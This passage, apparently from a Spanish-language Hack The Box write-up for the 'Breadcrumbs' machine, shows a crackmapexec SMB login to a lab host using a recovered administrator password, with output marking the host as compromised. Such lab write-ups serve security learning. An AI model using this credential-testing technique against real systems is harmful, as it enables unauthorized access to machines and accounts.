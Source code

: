 Con esto pudimos obtener la contraseña del usuario administrador y podemos logearnos.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Breadscrumbs/content$ crackmapexec smb 10.10.10.228 -u administrator -p 'p@ssw0rd!@#$9890./'  
SMB         10.10.10.228    445    BREADCRUMBS      [*] Windows 10.0 Build 19041 x64 (name:BREADCRUMBS) (domain:Breadcrumbs) (signing:False) (SMBv1:False)
SMB         10.10.10.228    445    BREADCRUMBS      [+] Breadcrumbs\administrator:p@ssw0rd!@#$9890./ (Pwn3d!)
```
